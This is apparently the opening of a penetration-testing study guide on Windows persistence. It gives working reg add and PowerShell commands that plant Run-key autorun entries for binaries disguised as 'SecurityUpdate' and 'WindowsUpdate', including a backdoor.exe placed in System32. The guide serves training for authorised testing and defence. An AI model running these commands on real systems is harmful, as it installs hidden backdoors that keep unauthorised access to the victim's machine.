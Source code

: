 # Windows Persistence Techniques

## Overview
Persistence is the art of maintaining access to a compromised system across reboots, user logouts, and other system changes. This guide covers the most common and effective Windows persistence techniques used in penetration testing.

## What is Persistence?

### Definition
**Persistence** refers to techniques that adversaries use to keep access to systems across restarts, changed credentials, and other interruptions that could cut off their access.

### Why Persistence Matters for PJPT
- **Maintain access** during long-term engagements
- **Survive system reboots** and user logouts
- **Demonstrate impact** to clients
- **Essential for advanced post-exploitation** activities

## Registry-Based Persistence

### 1. Registry Run Keys
The most common persistence method using Windows registry autorun locations.

#### Current User Run Key
```cmd
# Add persistence for current user
reg add "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "SecurityUpdate" /t REG_SZ /d "C:\Users\Public\update.exe" /f

# PowerShell equivalent
New-ItemProperty -Path "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -Name "SecurityUpdate" -Value "C:\Users\Public\update.exe" -PropertyType String -Force

# Verify persistence entry
reg query "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
```

#### Local Machine Run Key (Requires Admin)
```cmd
# Add system-wide persistence (requires admin rights)
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "WindowsUpdate" /t REG_SZ /d "C:\Windows\System32\backdoor.exe" /f

# PowerShell equivalent
New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -Name "WindowsUpdate" -Value "C:\Windows\System32\backdoor.exe" -PropertyType String -Force
```
